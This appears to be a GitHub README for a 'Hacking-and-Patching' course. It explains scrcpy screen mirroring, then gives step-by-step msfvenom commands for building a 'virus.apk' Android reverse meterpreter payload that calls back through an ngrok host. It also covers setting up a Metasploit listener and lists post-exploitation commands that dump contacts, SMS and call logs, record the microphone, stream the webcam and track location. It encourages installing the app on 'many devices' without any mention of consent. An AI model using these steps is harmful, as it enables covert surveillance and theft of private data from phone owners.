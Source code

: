 # LINUX GUIDE
# Hacking-and-Patching
The fundamentals of computer and network security specializations. Hacking and patching, it is a short course title, but it says it all. This repository explains how to hack devices with command injection vulnerability.

# 1. SCRCPY MODULE
Using the scrcpy module is quite easy but still brainstorming on it additional functions
  # STEPS:
  1. Install scrcpy: use the command 'apt-get install scrcpy'
  2. Enable developer mode on the android to be coonected to the PC
  3. Enable USB Debugging 
  4. Connect the USB cord to the PC
  5. In your linux VM enable connection to the VM
  6. Type 'scrcpy' after successful connection to the VM and you should see your phone screen displayed on your VM

# 2. METASPLOIT FRAMEWORK
Knowledge is power, especially when it’s shared. A collaboration between the open source community and Rapid7, Metasploit helps security teams do more than just verify vulnerabilities, manage security assessments, and improve security awareness; it empowers and arms defenders to always stay one step (or two) ahead of the game.
  # ANDROID HACKING: using NGROK
  First make sure your antivirus does not interfere with your machine 
  1. download from link: https://ngrok.com/
  2. download the file and extract using 'sudo tar xvzf ngrok-stable-linux-amd64.tgz' in the directory where it was downloaded
  3. first sign-up to get an auth-token
  4. Then in your VM command line input: './ngrok <authtoken>'
  5. msfvenom --platform android -p android/meterpreter/reverse_tcp LHOST=4.tcp.ngrok.io LPORT=4444 R > /home/kali/Hacking/android-exploitation/virus.apk 
  
  Here:
  -p indicates a payload type
  android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
  LHOST is your local IP
  LPORT is your IP’s listening port
  /home/kali/Hacking/android-exploitation would give the output directly
  apk is the final malicious app
  If you navigate to the output path /home/kali/Hacking/android-exploitation, we’ll find the injected apk file
  
  6. We need to set a listener on our PC/server. If the target device installs and opens the “virus.apk” application, it’ll start sending a reverse connection to our listener.
  To create a listener using Metasploit, run these commands:
  7. Run 'msfconsole'
  8. use exploit/multi/handler
  9. set payload android/meterpreter/reverse_tcp
  10. set LHOST 4.tcp.ngrok.io
  11. set LPORT 5544
  12. exploit 
  
  install the 'apk' on the targetted device and open the app. If the user opens the app, it’ll send a connection to our listener and create a session. We can install the virus     app on many devices.
  To sell all sessions, run "background" command from the listener console. It’ll show all available connected devices sessions
  Available Commands
We can then enter help to see all the Android meterpreter commands.

I’m sharing some commands. Have a look:

  
      Command                  Description
  1. app_list--	              Show all installed applications
  2. app_install--	          Request to install apk file
  3. app_run--	              Start an application
  4. app_uninstall--	        Request to uninstall application
  5. dump_contacts--	        Get all contacts and save in our PC
  6. dump_calllog--	          Get call log and save in our PC
  7. dump_sms--	              Get all sms and save in our PC
  8. send_sms--	              Send sms to any number
  9. geolocacte--	            Current lat and long of the device
  10. record_mic--	          Sound recorder
  11. webcam_list--           Available cameras
  12. webcam_snap 1/2/3--	    Take photo by selecting camera
  13. webcam_stream 1/2/3--	  Open specific camera and live streaming

  
  
# Detecting Command Injection
The pdf "Commix: Detecting and exploiting command injection flaws.", is by Anastasios Stasinopoulos, Christoforos Ntantogian, Christos Xenakis from Department of Digital Systems, University of Piraeus.

